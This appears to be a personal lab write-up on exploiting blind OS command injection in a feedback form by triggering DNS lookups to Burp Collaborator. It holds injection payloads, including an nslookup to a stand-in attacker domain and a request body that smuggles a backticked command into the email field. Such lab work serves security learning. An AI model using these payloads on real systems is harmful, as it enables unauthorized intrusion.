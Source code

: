 # Lab Blind OS command injection with out-of-band interaction

## Objective:

 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

## Big Idea:

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

`& nslookup kgji2Ohoyw.web-attacker.com &`

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring , and thereby detect that the command was successfully injected. 

This is what the landing page looks like.

![[Pasted image 20210923204534.png]]

I visited the "Submit feedback" function which responded with the following page.

![[Pasted image 20210923204605.png]]

One of these user input fields runs a command in the background and is vulnerable to OS command injection. 

Since this lab is focused on out of band techniques, I will start Burp Collaborator. Burp Collaborator acts as a listener and can be used to test out of band command injections. 

To Start Burp Collaborator visit Burp > Burp Collaborator Client

![[Pasted image 20210923204845.png]]

To get my unique subdomain, click "Copy to clipboard"

![[Pasted image 20210923204905.png]]

My unique domain is the following
j8swo5h0vh9kafljvq2tlq72mtsjg8.burpcollaborator.net

Any traffic that gets sent to the above domain will be displayed in my Burp Collaborator client. 

Back to the feedback, page I sent the following values and intercepted the request with Burp Intercept.

![[Pasted image 20210923205331.png]]

![[Pasted image 20210923205344.png]]

I sent the request to repeater and tried injecting a payload which would have the server ping itself 

ping -c 20 127.0.0.1

![[Pasted image 20210923205740.png]]

This payload did not work. 

I will try doing an nslookup on my burp collaborator client

The following command performs the dns request

` nslookup j8swo5h0vh9kafljvq2tlq72mtsjg8.burpcollaborator.net `

The following is what the command injection looks like inside of the http body

` csrf=qinivqp5NIpW6K2K5CO3O0eogtqjfBKf&name=bagelHacks&email=bagelHacks%40hacker.hacker`nslookup+j8swo5h0vh9kafljvq2tlq72mtsjg8.burpcollaborator.net`&subject=test&message=testing+ `

![[Pasted image 20210923205958.png]]


From Burp Collaborator, I can see DNS queries which means the nslookup command was successful on the target web server

![[Pasted image 20210923210037.png]]

![[Pasted image 20210923210051.png]]






